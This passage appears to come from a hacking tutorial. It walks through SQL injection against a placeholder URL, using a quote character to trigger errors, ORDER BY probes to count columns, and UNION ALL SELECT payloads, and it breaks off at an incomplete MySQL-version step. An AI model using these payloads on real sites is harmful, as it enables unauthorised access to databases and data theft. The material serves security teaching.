 Another common technique for ex-filtrating data is to leverage the UNION SQL operator, allowing an attacker to combine the results of two or more SELECT statements into a single result. This forces the application to return data within the HTTP response - this technique is referred to as union-based SQL Injection.

**Source:** [acunetix.com](https://www.acunetix.com/websitesecurity/sql-injection/)

* * *

###### BLIND SQL INJECTION (THE HARDER PART)

So let's start with some action.

**Check for vulnerability.**

Let's say that we have some sites like this.

```none
http://server/news.php?id=5
```

Now to test if is vulnerable we add to the end of URL' (quote), and that would be:

```none
http://server/news.php?id=5'
```

So if we get some error like:

"You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right etc ..." or something similar that means is vulnerable to SQL injection.

**Find the number of columns**

To find the number of columns we use statement ORDER BY (tells the database how to order the result) so how to use it? Well just incrementing the number until we get an error.

```none
http://server/news.php?id=5 order by 1/* <-- no error
http://server/news.php?id=5 order by 2/* <-- no error
http://server/news.php?id=5 order by 3/* <-- no error
http://server/news.php?id=5 order by 4/* <-- error (We get message like this Unknown column '4' in 'order clause' or something like that)
```

That means that it has 3 columns, cause we got an error on 4.

**Check for UNION function**

With the union, we can select more data in one SQL statement. So we have:

```none
http://server/news.php?id=5 union all select 1,2,3/* (We already found that number of columns are 3 in section 2). )
```

If we see some numbers on screen i.e 1 or 2 or 3 then the UNION Works.

**Check for MySQL version**

```none
http://server/news.php?id=5 union all select 1,2,3/*
```
